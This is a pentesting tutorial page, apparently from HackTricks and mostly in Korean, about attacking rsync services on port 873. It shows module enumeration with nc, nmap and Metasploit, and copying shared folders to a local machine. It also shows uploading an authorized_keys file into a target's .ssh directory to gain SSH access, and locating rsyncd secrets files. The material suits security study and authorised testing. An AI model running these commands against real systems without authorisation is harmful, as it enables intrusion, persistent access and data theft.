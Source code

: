 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**는 컴퓨터와 외장 하드 드라이브 간, 그리고 [네트워크화된](https://en.wikipedia.org/wiki/Computer\_network) [컴퓨터](https://en.wikipedia.org/wiki/Computer) 간에 [파일](https://en.wikipedia.org/wiki/Computer\_file)을 효율적으로 [전송](https://en.wikipedia.org/wiki/File\_transfer)하고 [동기화](https://en.wikipedia.org/wiki/File\_synchronization)하는 유틸리티로, [수정 시간](https://en.wikipedia.org/wiki/Timestamping\_\(computing\))과 파일 크기를 비교하여 작동합니다.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) 일반적으로 [유닉스 계열](https://en.wikipedia.org/wiki/Unix-like) [운영 체제](https://en.wikipedia.org/wiki/Operating\_system)에서 발견됩니다. rsync 알고리즘은 [델타 인코딩](https://en.wikipedia.org/wiki/Delta\_encoding)의 일종이며, 네트워크 사용을 최소화하는 데 사용됩니다. [Zlib](https://en.wikipedia.org/wiki/Zlib)는 추가적인 [데이터 압축](https://en.wikipedia.org/wiki/Data\_compression)에 사용될 수 있으며,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) 또는 [stunnel](https://en.wikipedia.org/wiki/Stunnel)은 보안을 위해 사용될 수 있습니다.

**기본 포트:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## 열거

### 배너 및 수동 통신
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **공유 폴더 열거하기**

**Rsync 모듈**은 **비밀번호로 보호될 수 있는 디렉토리 공유**로 인식됩니다. 사용 가능한 모듈을 식별하고 비밀번호가 필요한지 확인하기 위해 다음 명령어를 사용합니다:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
일부 공유가 목록에 나타나지 않을 수 있으며, 이는 숨겨져 있을 수 있습니다. 또한, 일부 공유에 접근하는 것은 특정 **자격 증명**에 제한될 수 있으며, 이는 **"Access Denied"** 메시지로 표시됩니다.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### 수동 Rsync 사용

**모듈 목록**을 얻은 후, 작업은 인증이 필요한지 여부에 따라 달라집니다. 인증 없이 **목록**을 작성하고 공유 폴더에서 로컬 디렉토리로 파일을 **복사**하는 것은 다음을 통해 수행됩니다:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
이 프로세스는 **재귀적으로 파일을 전송**하며, 파일의 속성과 권한을 유지합니다.

**자격 증명**을 사용하면 공유 폴더에서 목록을 작성하고 다운로드할 수 있으며, 이때 비밀번호 입력 프롬프트가 나타납니다:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized_keys**_ 파일에 대한 액세스를 위해, 사용하십시오:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd 구성 파일을 찾으려면 다음을 실행하십시오:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
이 파일 내에서 _secrets file_ 매개변수는 rsyncd 인증을 위한 **사용자 이름과 비밀번호**가 포함된 파일을 가리킬 수 있습니다.


## References
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
